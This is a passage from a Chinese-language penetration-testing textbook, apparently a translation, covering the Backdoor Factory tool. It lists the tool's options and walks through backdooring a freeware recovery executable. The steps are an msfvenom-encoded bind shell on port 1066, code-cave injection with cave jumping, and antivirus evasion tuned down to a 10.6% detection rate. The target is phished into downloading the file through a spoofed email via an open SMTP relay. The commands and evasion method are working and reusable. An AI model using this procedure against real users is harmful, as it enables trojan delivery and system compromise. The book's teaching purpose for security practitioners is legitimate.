+   `--shell=` 用于识别可用的有效载荷。定义了可执行文件后，使用`--shell=show`可以查看兼容的有效载荷列表。

+   `--hostip=` 和 `--port=` 是标准选项，用于连接回调或本地绑定，具体取决于有效载荷。

+   `--cave_jumping` 允许我们将 shellcode 分布到多个代码洞中；在一个代码洞中插入一些代码，然后跳转到下一个代码洞，再到下一个。

+   `--add_new_section` 为可执行文件添加一个新的部分，用于存放我们的 shellcode。这不是一个隐蔽的选项，但在某些二进制文件结构中可能是必要的。

+   `--user_shellcode=` 允许我们提供自己的 shellcode（而不是使用内置的有效载荷）。我更喜欢与我的 shellcode 建立一种更个人化的关系，因此几乎总是使用我自己的 shellcode。

+   `--cave` 和 `--shell_length=` 用于在二进制文件中寻找代码洞。虽然 `--cave` 可以找到所有代码洞并列出它们，`--shell_length=` 用于定义特定大小的代码洞。

+   `--output-file=` 是我们最终生成的文件保存的路径。

+   `--section=` 用于命名我们通过 `--add_new_section` 创建的新节。

+   `--directory=` 是一个非常实用的选项，使 BDF 变得特别强大；它允许我们对整个*目录*的二进制文件进行后门处理。请记住，默认行为是寻找代码洞，这意味着每个独立的可执行文件都需要进行处理。将此选项与 `--add_new_section` 结合使用时，BDF 不再需要寻找代码洞，这个过程会更快。记住一个经验法则，添加新节并不隐蔽。

+   `--change_access` 是默认行为；只有在某些情况下你才需要更改它。此选项使得载荷所在的代码洞变为可写和可执行。

+   `--injector`、`--suffix=` 和 `--delete_original` 是注入器模块的一部分，仅适用于 Windows 系统，因此在这里我们不进行操作。我没有跳过它们，因为它们既有趣又危险。它们非常激进且具有潜在的破坏性，因此建议小心使用。它们会在系统中寻找可修补的可执行文件，进行注入，并根据 `suffix` 参数保存原始文件。如果使用 `--delete_original`，原始的未触及的可执行文件将被删除，留下注入后的副本。`--injector` 模块甚至会检查目标是否正在运行，如果是，它将关闭目标程序，进行注入，然后尝试重新启动它。

+   `--support_check` 允许 BDF 判断目标是否可以在不进行注入的情况下被注入。当你尝试注入一个文件时，会进行此检查，因此这对研究很有帮助。

+   `--cave-miner` 用于调整我们的 shellcode 生成，使其适应目标可执行文件，而不是相反。它帮助我们找到可以适配到某个代码洞中的最小有效载荷。

+   `--verbose` 用于调试注入过程。

+   `--image-type=` 让你能够识别要修补的二进制文件是 x86 还是 x64（或两者都有）。默认是两者都有。

+   `--beacon=` 用于能够发送信标或心跳的有效载荷。此选项接受以秒为单位的间隔时间作为参数。

+   `--xp_mode` 使你的创作能够在 Windows XP 上运行。没错——默认情况下，BDF 木马会在 XP 上崩溃。这是一种沙箱对策——随着 XP 逐渐不再作为实际的家庭（或生产）操作系统使用，它仍然在虚拟机和其他环境中找到了用途，可以在不担心破坏宝贵数据的情况下引爆数字炸弹。当然，现代沙箱可以在任何操作系统上进行，所以这个选项不会产生巨大的区别。如果你明确针对 XP 进行攻击，请留意这一点——许多生产环境仍然使用 XP，以便兼容某些应用程序。

+   `--code_sign` 在安全环境中非常有用，尤其是那些只信任签名代码的环境。这使得你可以用自己的签名证书和私钥签署你的作品。当然，你不可能拥有一些大型软件制造商的合法签名证书（对吧？），但如果检查只是在乎代码是否用*任何*证书签署，那么这个选项非常方便。如果你没有签署你的文件，那么你需要使用`--zero_cert`。

这个工具使我们在注入过程中拥有相当多的控制权。通过这种低级别的控制，我们可以更深入地了解我们的项目，并根据需要精细调整我们的木马。接下来，我们将选择一个可执行文件，作为我们的感染程序，进行一些低级分析。

## 使用 BDF 和 IDA 进行木马工程

最理想的目标二进制文件是轻量级和可移植的——也就是说，它们依赖较少或根本没有依赖。一个需要完整安装的程序并不理想。我们假设客户的员工使用一个轻量级的免费软件来进行数据恢复。在我们的侦察阶段，我们建立了这个员工与公司另一位员工之间的信任关系。我们还发现了一个开放的 SMTP 中继，因此我们将尝试进行社会工程攻击，建议员工下载新版软件。我们会发送一个链接，实际上指向我们的 Kali 主机，拉取被植入木马的文件。

在开始之前，我们将确认目标可执行文件的当前状态，从 AV 社区的信任角度进行验证，确保它被普遍信任。我们正在使用的程序`DataRecovery.exe`，在社区中被认为是可信的。这有助于我们评估我们所实现的规避程度。去拿杯咖啡吧，我们继续。首先，我们将使用`msfvenom`创建我们自己的有效载荷：

# msfvenom --arch x86 --platform windows --payload windows/shell/bind_tcp EXITFUNC=thread LPORT=1066 --encoder x86/shikata_ga_nai --iterations 5 > trojan.bin



图 12.11 – 使用 msfvenom 生成编码后的有效载荷

你还记得那些丰盛的日子吗？那时我们可以使用 Meterpreter 反向连接 payload。那时候我们富裕，179 千字节的文件都能让我们傲慢地笑一笑。如今，当我们处理可能微小的代码 cave 时，那些日子已经一去不复返了。在这种情况下，我使用了`windows/shell/bind_tcp`，因为它要小得多。这为我们提供了进行多次`x86/shikata_ga_nai`迭代的空间。即使进行了五次迭代，我们最终也只得到了可怜的 482 字节。因此，这个攻击将要求我们主动连接目标，而不是等待对方的反向连接。为了之后分析最终产品，我现在就用`xxd`检查 payload，获取一些原始字节：



图 12.12 – 使用 xxd 抓取 payload 的原始字节

接下来，我们将启动 BDF，并将我们编码后的二进制文件作为用户提供的 shellcode 传入：

# ./backdoor.py --file=DataRecovery.exe --shell=user_supplied_shellcode_threaded --user_shellcode=trojan.bin --output-file=datarec.exe --zero_cert

这是我们可以控制的部分。看一下这个提示，已标出合适的代码 cave：



图 12.13 – 检查代码 cave 以便跳转

让我们深入研究这个程序的机器代码，检查这些内存位置。我们真正要寻找的是一个合适的代码 cave 来放置 payload。为什么不直接探索程序在磁盘上的原始字节呢？像之前在章节中使用`xxd`那样，我选择了第二个代码 cave——长度为 2,941 字节，从`0x4a47f`开始，到`0x4affc`结束：



图 12.14 – 检查代码 cave

这里看起来是我们 shellcode 的一个理想位置。我们继续将`2`传递给 BDF，它会输出我们的木马可执行文件。我敢打赌，你此刻一定觉得自己像个真正的世界级黑客。别急，草蜢——先让你的邪恶创作通过扫描，看我们在规避方面做得如何。最后我们得到了`50%`的检测率。哦，我的天。每两个扫描器就有一个能检测到它。发生了什么？首先，我们没有使用“cave jumping”（代码跳跃），所以我们的 payload 被直接放到了一个位置。接下来，我们将尝试“cave jumping”，并实验可执行文件的不同部分：

# ./backdoor.py --file=DataRecovery.exe --shell=user_supplied_shellcode_threaded --cave_jumping --user_shellcode=trojan.bin --output-file=datarec3.exe --zero_cert

对我们所选程序的执行流程进行更深入的分析，有助于我们识别合适的注入点。对于我们这些时间至关重要的从业者，我建议你搭建一个尽可能准确复制目标反恶意软件防御的实验室环境。侦察通常能为我们提供有关企业 AV 解决方案的信息（提示：在技术支持论坛上进行开源侦察），我们可以通过反复试验创建有效的有效载荷。

当我们跳跃洞穴时，我们可以控制哪些空字节块包含我们的 shellcode。



图 12.15 – 在 BDF 中选择洞穴

当我更加仔细地选择我的洞穴，尝试分散执行时，我最终能够创建一个检测率仅为*10.6%*的文件。当我们对有效载荷感到满意时，我们通过选定的向量进行投递（在我们的场景中，通过伪造的电子邮件发送本地 URL）并等待受害者执行木马。在这里，我们看到被后门化的 DataRecovery 工具正常工作，但在后台，端口`1066`已打开并等待我们的连接：



图 12.16 – 绑定端口的目标可执行文件正在运行

作为你学习的一部分，为了更好地理解幕后发生的事情，不要忘记在你喜欢的工具中转储木马的字节，并寻找你的 shellcode。查找你的 shellcode 字节（正如我们之前在`xxd`中恢复的那样）：



图 12.17 – grep 出我们之前收集的一些字节

当然，这只是一个额外的练习。其目的是深入了解注入是如何工作的。这确实是一个让人迷失的兔子洞，所以请享受探索你自己创作的过程。

尽管这结束了我们的实验练习，但请记住核心概念——在你找到适合目标环境的有效方法之前，可能需要进行大量的反复试验。

# 总结

在本章中，我们探讨了恶意脚本如何通过解释器进程与主机交互，从而创建一个独特的防御场景。我们看了一些简单的模板，用于 shellcode 注入和数据泄露，并考虑了不同的方法来修改它们，以迷惑扫描器。

在本实验之后，我们简要探讨了 Metasploit 的 Shellcode 生成理论，并理解了编码器的功能和作用。我们通过 Kali 中一个快速简便的反汇编工具探索了 Windows 可执行载荷，并使用 `grep` 命令查找字节序列，学习如何识别编码 Shellcode 中的模式。最后，我们探索了如何修补合法的可执行文件，使其通过我们自己的载荷变成有效的特洛伊木马。这个过程中包括了通过十六进制转储来回顾注入点。我们还探索了仍然有效的 BDF，识别代码洞并控制地使用它们来存放我们的 Shellcode。

在下一章中，我们将从内核的角度深入探讨更低层次的抽象。我们将了解一些经过验证的攻击方法，以深入理解内核漏洞的基础，并探讨使用 Metasploit 框架的实际方法。

# 问题

1.  `VirtualAlloc()` 和 `VirtualAllocEx()` 有什么区别？

1.  `MiniDumpWriteDump()` 只能用于攻击 LSASS。（对 | 错）

1.  代码洞是后门目标可执行文件中的一部分，由`0x90`空操作码组成，我们可以将我们的 Shellcode 存放在其中。（对 | 错）

1.  在使用 BDF 修补目标可执行文件时，我们何时需要`--xp_mode`？
